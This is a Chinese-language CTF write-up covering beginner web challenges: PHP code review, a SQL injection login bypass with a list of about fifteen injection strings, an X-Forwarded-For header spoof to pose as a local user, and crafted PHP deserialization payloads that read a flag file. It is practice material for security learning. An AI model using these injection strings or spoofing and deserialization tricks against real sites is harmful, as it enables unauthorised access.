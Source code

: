 ```yaml
---
title: Asuri_ctf WEB Write-up
urlname: Asuri_ctf-WEB-Write-up
date: 2020-10-12 16:58:25
updated: 
comments: false
tags: 
  - SQL注入
  - 反序列化
categories: 
  - Write-Up
permalink: 
---
```


by:gyy
<h2>[nuaactf2019]web签到</h2>
<h3>F12</h3>
题目地址：<a class="url" href="http://106.15.177.94:10001/" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10001/</a>

f12直接看源码
<h3>最终</h3>
问题解决：nuaactf{we1cOme_to_NuaAcTF}

<hr />
<h2>神奇的php</h2>
<h3>代码审计</h3>
题目地址：<a class="url" href="http://106.15.177.94:10017/" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10017/</a>

打开直接给源码
```php
<?php
require('flag.php');//寮曞叆flag鍜宎bc鍙橀噺
foreach($_GET as $key => $value){
    $key=$value;
}
if($a==$abc)
{
    echo $flag;
}
show_source(__FILE__);
?>
```



get直接收个a参数，a=abc就出flag，非常简单
<h3>最终</h3>
payload：./?a=abc

问题解决：Asuri{php_is_amazing}

<hr />
<h2>GET</h2>
<h3>怀疑asuri水题</h3>
题目地址：<a class="url" href="http://106.15.177.94:10019" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10019</a>

打开得源码
```php
<?php
include_once('flag.php');
//flag.php涓�$flag鍙橀噺
if (isset($_GET['ans'])) {
    if ($_GET['ans']==='hello_world') {
        echo $flag;
        echo '<br>';
    }
}
show_source(__FILE__);
?>
```



不说了

<h3>最终</h3>
payload：./ans=hello_world

问题解决：Asuri{get_is_simple}

<hr />
<h2>管理员</h2>
<h3>sql注入</h3>
题目地址：<a class="url" href="http://106.15.177.94:10012/" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10012/</a>

打开提示登录管理员

尝试登录：<code>1' or 1=1 #</code>

直接登录成功了...

后来尝试，还有多种payload
<h3>最终</h3>
payload：
<pre><code>' or 0=0 #
' or 1=1 or ''='
x' or 1=1 or 'x'='y
a' or 'a' = 'a
anything' OR 'x'='x
'%20or%20''='
'%20or%20'x'='x
' or 0=0 #
' or 1 --'
' or 1=1 or ''='
hi' or 'a'='a
' or username like '%
' or 1=1 or ''='
' or ''='
x' or 1=1 or 'x'='y
</code></pre>
大同小异，都记录下来，日后学习

问题解决：Asuri{Web_1s_easy}

<hr />
<h2>管理员2</h2>
<h3>同上</h3>
一样，payload登录提示要从本地登录
加个<code>X-Forwarded-For: 127.0.0.1</code>即可

<h3>最终</h3>
问题解决：Asuri{1m_Adm1n}

<hr />
<h2>php序列化</h2>
<h3>序列化</h3>
<h4>告诉我靶场题目有问题???我淦</h4>
题目地址：<del><a class="url" href="http://106.15.177.94:10014" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10014</a></del>
新地址：<a class="url" href="http://desperadoccy.club:39016" target="_blank" rel="noopener noreferrer">http://desperadoccy.club:39016</a>

有时间再写
<h3>最终</h3>
payload：
<code>http://desperadoccy.club:39016/?exp=O:10:%22FileReader%22:4:{s:8:%22Filename%22;S:4:%22\66lag%22;s:5:%22start%22;i:0;s:10:%22max_length%22;i:5;}</code>
&&
<code>http://desperadoccy.club:39016/?exp=O:10:%22FileReader%22:4:{s:8:%22Filename%22;S:4:%22\66lag%22;s:5:%22start%22;i:6;s:10:%22max_length%22;i:13;}</code>

问题解决：Asuri{php_serial1ze}

<hr />
